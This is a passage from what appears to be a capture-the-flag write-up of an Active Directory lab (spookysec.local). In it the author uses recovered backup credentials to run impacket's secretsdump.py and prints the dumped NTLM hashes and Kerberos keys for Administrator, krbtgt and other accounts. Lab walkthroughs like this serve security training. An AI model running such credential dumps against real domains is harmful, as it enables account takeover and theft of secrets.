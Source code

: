 Now we have a new set of credentials!

The room advised that we use another impacket script "secretsdump.py". What this does is just dump the NTLM hashes of the accounts present in the AD if the current account has access to the NTDS.dit file. The NTDS.dit files contains active directory data such as groups, hashes, accounts etc.

```
$ secretsdump.py backup@spookysec.local              
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:9927ea2eb4e69e7935f91fe57ef5711b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
```